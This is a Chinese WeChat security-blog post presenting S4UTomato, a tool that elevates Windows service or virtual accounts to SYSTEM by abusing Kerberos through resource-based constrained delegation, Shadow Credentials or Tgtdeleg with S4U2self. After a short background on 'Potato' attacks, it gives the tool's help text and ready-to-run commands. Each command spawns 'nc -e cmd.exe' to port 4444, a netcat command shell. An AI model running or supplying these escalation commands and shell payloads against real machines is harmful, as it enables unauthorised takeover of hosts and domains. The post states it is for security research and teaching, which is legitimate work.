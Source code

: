 #  【工具】利用 Kerberos 将服务帐户提权至本地系统权限

原创 骨哥说事 [ 骨哥说事 ](javascript:void\(0\);)

**骨哥说事** ![]()

微信号 guge_guge

功能介绍 关注信息安全趋势，发布国内外网络安全事件，不定期发布对热点事件的个人见解。

____

___发表于_

收录于合集

#工具 42 个

#提权 1 个

#白帽故事 116 个

# ****声明：****
文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。  
  
---  
  
#  **  
**

#  **背景介绍：**

  

熟悉 "Potato"系列提权的朋友应该知道，它可以将服务账户权限提升到本地系统权限。"Potato"的早期利用技术几乎完全相同：利用 COM
接口的某些特性，欺骗 NT AUTHORITY\SYSTEM 账户连接并验证攻击者控制的 RPC 服务器。然后，通过一系列 API
调用，在验证过程中执行中间（NTLM 中继）攻击，从而为本地系统中的 NT AUTHORITY\SYSTEM 账户生成访问令牌。最后，该令牌被窃取，然后使用
CreateProcessWithToken() 或 CreateProcessAsUser() 函数传递令牌并创建一个新进程以获取 SYSTEM 权限。

  

 **  
**

 **关于Kerberos：**

在计算机加入域的任何情况下，只要可以在 Windows 服务帐户或 Microsoft 虚拟帐户中运行代码（前提是没有 Active Directory
），你就可以利用上述技术进行本地权限提权。

  

在 Windows 域环境中，加入域的系统计算机帐户使用 SYSTEM、NT AUTHORITY\NETWORK SERVICE 和 Microsoft
虚拟帐户进行身份验证。因为在现在版本的 Windows 系统中，大多数 Windows 服务默认使用 Microsoft 虚拟帐户运行，值得注意的是，IIS
和 MSSQL
使用这些虚拟帐户，其他应用程序也可能会使用它们，因此，我们可以利用S4U扩展来获取本机上域管理员帐户“Administrator”的服务票据，然后，在
James Forshaw (@tiraniddo) 的 SCMUACBypass 的帮助下，使用该票证创建系统服务获得 SYSTEM
权限，这实现了与“Potato”系列提权技术中使用的传统方法相同的效果。

在这之前，需要先获取本地机器帐户的TGT（Ticket Granting
Ticket），这并不容易，因为服务帐户权限施加的限制会无法获取计算机的长期密钥，从而无法构造 KRB_AS_REQ
请求，为了实现以上目标，本工具利用了三种技术：Resource-based Constrained Delegation, Shadow
Credentials, and Tgtdeleg，作者基于 Rubeus 工具集构建了该项目。

 **使用方法：**  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     C:\Users\whoami\Desktop>S4UTomato.exe --help  
    S4UTomato 1.0.0-betaCopyright (c) 2023  
      -d, --Domain              Domain (FQDN) to authenticate to.  -s, --Server              Host name of domain controller or LDAP server.  -m, --ComputerName        The new computer account to create.  -p, --ComputerPassword    The password of the new computer account to be created.  -f, --Force               Forcefully update the 'msDS-KeyCredentialLink' attribute of the computer                            object.  -c, --Command             Program to run.  -v, --Verbose             Output verbose debug information.  --help                    Display this help screen.  --version                 Display version information.

  

利用 Resource-based Constrained Delegation的LEP：

  * 

    
    
    S4UTomato.exe rbcd -m NEWCOMPUTER -p pAssw0rd -c "nc.exe 127.0.0.1 4444 -e cmd.exe"

![]()

利用 Shadow Credentials + S4U2self的LEP：

  * 

    
    
    S4UTomato.exe shadowcred -c "nc 127.0.0.1 4444 -e cmd.exe" -f

  

利用 Tgtdeleg + S4U2self的LEP：

  *   *   *   * 

    
    
    # First retrieve the TGT through TgtdelegS4UTomato.exe tgtdeleg# Then run SCMUACBypass to obtain SYSTEM privilegeS4UTomato.exe krbscm -c "nc 127.0.0.1 4444 -e cmd.exe"

 **  
**

工具地址： **https://github.com/wh0amitz/S4UTomato**

 ** **====正文结束====****

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

